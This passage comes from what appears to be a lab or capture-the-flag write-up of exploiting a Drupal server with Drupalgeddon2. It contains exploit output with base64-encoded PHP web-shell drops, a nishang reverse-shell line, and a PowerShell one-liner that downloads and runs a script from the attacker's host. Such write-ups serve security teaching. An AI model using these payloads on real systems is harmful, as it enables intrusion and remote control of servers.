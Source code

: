 ```
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://10.10.10.9/shell.php)
[i] Response: HTTP 404 // Size: 12
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
[*] Testing: Existing file   (http://10.10.10.9/sites/default/shell.php)
[i] Response: HTTP 404 // Size: 12
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
[*] Testing: Writing To Web Root   (sites/default/)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee sites/default/shell.php
[!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
[*] Testing: Existing file   (http://10.10.10.9/sites/default/files/shell.php)
[i] Response: HTTP 404 // Size: 12
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
[*] Testing: Writing To Web Root   (sites/default/files/)
[*] Moving : ./sites/default/files/.htaccess
[i] Payload: mv -f sites/default/files/.htaccess sites/default/files/.htaccess-bak; echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee sites/default/files/shell.php
[!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
[!] FAILED : Couldn't find a writeable web path
--------------------------------------------------------------------------------
[*] Dropping back to direct OS commands
drupalgeddon2>> whoami
nt authority\iusr
drupalgeddon2>>
```

Notice how above, I was able to execute the `whoami` command which returned `nt authority\iusr` which looks like some windows user. Since I figured I was on a windows machine, I mirrored a copy of `Invoke-PowerShellTcp.ps1` from the [nishang](https://github.com/samratashok/nishang) post exploitation framework to escalate to an interactive powershell session.

I appended the following line to my `Invoke-PowerShellTcp.ps1` script:

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.24 -Port 2001
```

Via remote code execution with the drupalgeddon exploit script, I downloaded and executed the `Invoke-PowerShellTcp.ps1` script from my kali machine:

```
drupalgeddon2>> powershell -Command "iex(New-Object System.Net.WebClient).DownloadString('http://10.10.14.24:8000/Invoke-PowerShellTcp.ps1')"
```

